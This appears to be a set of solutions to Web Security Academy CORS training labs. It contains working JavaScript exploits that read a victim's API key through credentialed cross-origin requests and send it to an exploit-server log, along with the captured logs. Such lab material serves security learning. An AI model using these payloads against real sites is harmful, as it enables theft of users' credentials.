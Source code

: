 # CORS

## CORS vulnerability with basic origin reflection
```html
<script>
    fetch('https://acc51f361e18076480b18f7400cb00e1.web-security-academy.net/accountDetails', {
        credentials: 'include',
    })
        .then(response => response.json())
        .then(data => {
            location = '/log?key=' + data.apikey;
        });

</script>
```
Then read the API key from log:
```
192.168.1.12    2019-11-26 17:43:29 +0000 "GET /log?key=C6jmr5ha0rCuLJLJwF2Advyo5Ww6jjEi HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.142 Safari/537.36 PSAcademy/888822"
```


## CORS vulnerability with trusted null origin
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src='data:text/html,
<script>
    fetch("https://ac261fc01eaf53ac8000046f00a70074.web-security-academy.net/accountDetails", {
        credentials: "include",
    })
        .then(response => response.json())
        .then(data => {
            location = "https://ac351fc01ef95355807a045a01ec00f8.web-security-academy.net/log?key=" + data.apikey;
        });
</script>'></iframe>
```
Then read the API key from log:
```
192.168.1.12    2019-11-26 21:43:49 +0000 "GET //log?key=FLgt9zxG64IV2d0DKYDm3pI2kRGtyY6g HTTP/1.1" 404 "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.142 Safari/537.36 PSAcademy/885332"
```

### CORS vulnerability with trusted insecure protocols
There is an XSS vulnerability in the subdomain:
```
http://stock.acf01f3b1eda3d94803f4c7100240098.web-security-academy.net/?productId=%3Cscript%3Ealert(1)%3C/script%3E&storeId=1
```

```html
<script>
   document.location="http://stock.acf01f3b1eda3d94803f4c7100240098.web-security-academy.net/?productId=4%3Cscript%3Efetch%28%27https%3A%2F%2Facf01f3b1eda3d94803f4c7100240098.web-security-academy.net%2FaccountDetails%27%2C+%7B+credentials%3A+%27include%27%2C+%7D%29+.then%28response+%3D%3E+response.json%28%29%29+.then%28data+%3D%3E+%7B+location+%3D+%27https%3A%2F%2Fac691fd21e1d3d63801b4ca901e30063.web-security-academy.net%2Flog%3Fkey%3D%27+%2B+data.apikey%3B+%7D%29%3B%3C%2Fscript%3E%0D%0A&storeId=1"
</script>
```
Then read the API key from log:
```
192.168.1.12    2019-11-26 22:22:25 +0000 "GET /log?key=eAzFrQXushulGePxvr5qRUUlReJxxyQD HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.142 Safari/537.36 PSAcademy/329148"
```